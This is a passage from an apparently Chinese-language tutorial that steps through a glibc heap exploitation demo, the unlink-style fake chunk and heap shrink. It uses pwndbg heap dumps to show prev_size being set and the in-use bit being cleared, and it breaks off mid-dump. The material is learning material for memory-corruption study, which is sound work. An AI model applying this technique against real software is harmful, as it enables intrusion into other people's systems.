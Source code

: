 从小demo里就可以稍微理解指针加减了叭(雾

好的,下面我们继续分析.

程序做了什么呢?

程序将chunk1_ptr向前16位的地址赋给了我们的chunk1_hdr,这是做什么呢?

我们知道程序给我们的用户指针其实是free chunk的fd指针,因此向前16就意味着是chunk的pre_size域

我们继续让程序执行到给他赋值的地方,此时答案呼之欲出,这里的作用就是为了实现我们刚刚所说的堆缩,heap shrink:)

我们看下现在的堆

```
pwndbg&gt; heap
0x603000 PREV_INUSE {
  prev_size = 0,
  size = 0x91,
  fd = 0x0,
  bk = 0x0,
  fd_nextsize = 0x602058,
  bk_nextsize = 0x602060 &lt;stderr@@GLIBC_2.2.5&gt;
}
0x603090 PREV_INUSE {
  prev_size = 0x80,
  size = 0x91,
  fd = 0x0,
  bk = 0x0,
  fd_nextsize = 0x0,
  bk_nextsize = 0x0
}
0x603120 PREV_INUSE {
  prev_size = 0,
  size = 134881,
  fd = 0x0,
  bk = 0x0,
  fd_nextsize = 0x0,
  bk_nextsize = 0x0
}
```

看到了吗,这里chunk1的prev_size已经被设为了0x80,这也就意味着系统向前找chunk的时候会向前0x80找到我们的fake_chunk

```
pwndbg&gt; p/x 0x603090-0x80
$27 = 0x603010
```

但这并不够,我们需要伪造chunk1是free态的chunk,那么只需要把标志位设位0就好了,程序继续运行到下一断点

```
42   chunk1_hdr[1] &amp;= ~1;
```

这里是一个赋0的操作

```
pwndbg&gt; heap
0x603000 PREV_INUSE {
  prev_size = 0,
  size = 0x91,
  fd = 0x0,
  bk = 0x0,
  fd_nextsize = 0x602058,
  bk_nextsize = 0x602060 &lt;stderr@@GLIBC_2.2.5&gt;
}
0x603090 {
  prev_size = 0x80,
  size = 0x90,
  fd = 0x0,
```